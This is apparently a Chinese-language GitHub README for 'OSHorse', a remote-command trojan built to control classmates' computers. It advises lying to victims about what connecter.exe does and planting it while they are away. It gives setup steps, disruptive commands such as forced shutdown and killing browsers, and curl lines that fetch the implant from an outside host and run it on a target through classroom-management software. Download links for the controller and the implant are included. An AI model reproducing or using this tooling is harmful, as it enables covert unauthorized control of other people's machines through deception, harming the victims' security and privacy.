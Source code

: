 # OSHorse，轻松控制同学电脑！
### 免责声明：仅供学术研究使用。对于违反相关法律、造成危害的滥用行为，开发者不负任何责任。

## 有关这个项目
最近一直在找机会研究如何破解极域电子教室，结果百度了几下，看到某篇利用电子教室控制同学的教程。

呃，这似乎有点麻烦，不如自己写一个罢…？

来看看这个远程命令程序！

个人博客介绍：https://blog.helloos.eu.org/index.php/blog/13

## 小技巧：
1. 谎称connecter.exe是个利用host加速的程序
2. 谎称输入控制机器的IP地址是要激活程序

当然你在同学不在的时候植入木马是最佳选择！

## 使用方法
1. 在控制机器上下载（链接附在文末）`HorseCommander.exe`，并在程序同一目录下新建文本文档，重命名为`connect.txt`，内容为连接端口（建议为8888或8080），然后打开程序。（切记，一定要先打开控制端！）
2. 在目标机器上下载`connecter.exe`，并在程序同一目录下新建文本文档，重命名为`connect.txt`，内容 第一行为控制机器的IP地址（输入`ipconfig`查看，一般格式为`192.168.*.*`），第二行为连接端口（与上文端口相同）。双击打开程序，目标机器可能会闪过一个黑框。
3. 回到控制机器，会显示连线者IP地址并显示提示符，您现在可以远程执行命令啦！

TIPS: 这个提示符的界面和cmd不一样，你可以执行`cd .`来查看目标机器上木马的工作目录，输入`help`查看木马内置命令。

坑同学小命令：
```cmd
#关机
shutdown -s -t [时间，单位为秒]
#重启
shutdown -r -t [时间，单位为秒]
#关闭chrome浏览器
taskkill -f -im chrome.exe
#关闭edge浏览器
taskkill -f -im msedge.exe
#弹出计算器
calc
#锁屏
lock
#弹窗
msg [消息]
```

## 使用极域电子教室反控制软件植入木马
本地
```cmd
curl "https://helloosdisk.wdfiles.com/local--files/file:software/HorseCommander.exe" --output ./connecter.exe
echo [端口]>>connect.txt
ipconfig
```
远程
```cmd
cd %%temp%%/../../../Documents
curl "https://helloosdisk.wdfiles.com/local--files/file:software/connecter.exe" --output ./connecter.exe
echo [你的内网IP]>>connect.txt
echo [端口]>>connect.txt
./connecter.exe
```
## 下载
[下载HorseCommander.exe(控制)](https://helloosdisk.wdfiles.com/local--files/file:software/HorseCommander.exe)

[下载connecter.exe(目标)](https://helloosdisk.wdfiles.com/local--files/file:software/connecter.exe)
